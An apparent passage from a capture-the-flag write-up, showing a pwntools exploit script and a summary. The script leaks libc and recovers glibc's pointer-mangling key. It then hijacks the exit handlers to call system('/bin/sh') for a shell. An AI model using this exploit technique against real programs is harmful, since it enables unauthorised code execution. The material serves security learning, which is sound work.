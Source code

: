 def formatter(val):
    hex_val = hex(val)[2:]
    hex_val = str(hex_val.zfill(16))
    return hex_val[:2].encode() + b'-' + hex_val[2:4].encode() + b'-' + hex_val[4:].encode()

def main():
    p,e,libc = conn()

    # Stage 1 - leak the libc base address

    #leak puts and calculate libc base
    libc.address = read(0xffffffffffffff78,6,p) - libc.symbols['puts']

    #address of the function _dl_fini
    orig_handler = libc.address + 0x219380
    #address of __exit_func (initial)
    exit_funcs_initial = libc.address + 0x204fc0
    
    #Leak mangled pointer of _dl_fini
    encrypted_pointer = read((exit_funcs_initial + 24 - memory),8,p)

    # calculate key
    key = ror(encrypted_pointer, 0x11, 64) ^ orig_handler

    # mangle the address of libc_system
    write(exit_funcs_initial + 24, encrypt(libc.symbols['system'], key),p)
    # set rdi to /bin/sh
    write(exit_funcs_initial + 32, list(p64(libc.address + 0x001cb42f)),p)

    #Get the F3king Shell
    p.recvuntil(b'Enter date of birth (dd-mm-yyyy) or \'exit\' to quit: ')
    p.sendline(b'exit')
    p.recvuntil(b"Exiting the program.")
    banner()
    p.interactive()

if __name__ == "__main__":
    main()
</code></pre>
        </div>
        
        <div class="section-content">
            <h3>TL;DR</h3>
            <ul>
                <li>Arbitrary byte-wise read/write via DOB input.</li>
                <li>ROP & GOT overwrites ruled out by protections.</li>
                <li>Abused glibc exit handlers for RCE.</li>
                <li>Reverse engineered <code>pointer_guard</code> and mangled <code>system()</code>.</li>
                <li>Exited cleanly into a shell</li>
            </ul>
        </div>
    </div>
</section>
</section>
